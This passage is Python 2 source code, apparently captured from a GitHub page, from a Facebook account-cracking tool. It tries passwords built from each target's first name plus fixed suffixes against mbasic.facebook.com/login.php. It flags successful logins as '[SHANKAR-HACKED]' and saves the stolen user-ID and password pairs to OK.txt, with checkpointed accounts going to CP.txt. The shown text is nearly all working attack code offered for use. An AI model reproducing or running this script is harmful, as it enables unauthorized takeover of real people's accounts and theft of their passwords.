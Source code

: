                                 'login': 'submit' })
                            sp = data.content
                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                ok = open('OK.txt', 'a')
                                ok.write(uid + '|' + ps5 + '\n')
                                ok.close()
                                oks.append(uid + ps5)
                            elif 'checkpoint' in sp:
                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                cp = open('CP.txt', 'a')
                                cp.write(uid + '|' + ps5 + '\n')
                                cp.close()
                                cps.append(uid + ps5)
                            else:
                                ps6 = name.lower().split(' ')[0] + p6
                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                    'email': uid,
                                    'pass': ps6,
                                    'login': 'submit' })
                                sp = data.content
                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    ok = open('OK.txt', 'a')
                                    ok.write(uid + '|' + ps6 + '\n')
                                    ok.close()
                                    oks.append(uid + ps6)
                                elif 'checkpoint' in sp:
                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    cp = open('CP.txt', 'a')
                                    cp.write(uid + '|' + ps6 + '\n')
                                    cp.close()
                                    cps.append(uid + ps6)
                                else:
                                    ps7 = name.lower().split(' ')[0] + p7
                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                        'email': uid,
                                        'pass': ps7,
                                        'login': 'submit' })
                                    sp = data.content
                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        ok = open('OK.txt', 'a')
                                        ok.write(uid + '|' + ps7 + '\n')
                                        ok.close()
                                        oks.append(uid + ps7)
                                    elif 'checkpoint' in sp:
                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        cp = open('CP.txt', 'a')
                                        cp.write(uid + '|' + ps7 + '\n')
                                        cp.close()
                                        cps.append(uid + ps7)
                                    else:
                                        ps8 = name.lower().split(' ')[0] + p6
                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                            'email': uid,
                                            'pass': ps8,
                                            'login': 'submit' })
                                        sp = data.content
                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            ok = open('OK.txt', 'a')
                                            ok.write(uid + '|' + ps8 + '\n')
                                            ok.close()